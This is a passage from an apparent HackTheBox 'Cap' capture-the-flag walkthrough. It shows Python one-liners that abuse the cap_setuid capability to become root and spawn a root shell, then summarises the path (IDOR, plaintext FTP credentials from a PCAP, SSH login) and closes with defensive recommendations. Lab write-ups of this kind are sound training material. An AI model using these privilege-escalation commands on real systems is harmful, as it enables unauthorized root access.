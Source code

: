 Then, change the UID to `0` (root) and check again:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("whoami")'
```
Output:
```
root
```

Finally, spawn a root shell:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("bash")'
```

![setuid_0](GitHubv2/HackTheBox/EASY/Cap/screenshots/setuid_0.png)

🏁 **Root flag retrieved from `/root`**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Discovered capture generation feature.  
2. **IDOR** → Accessed another user’s PCAP file.  
3. **PCAP Analysis** → Extracted plaintext FTP credentials.  
4. **SSH Access** → Logged in as Nathan.  
5. **Privilege Escalation** → Abused Python `cap_setuid` to gain root.

---
## Defensive Recommendations

- Implement proper **access control** to prevent IDOR vulnerabilities.  
- Avoid storing or transmitting credentials in plaintext (use FTPS/SFTP).  
- Restrict Linux capabilities to only required binaries.  
- Regularly audit server configurations for misconfigurations.

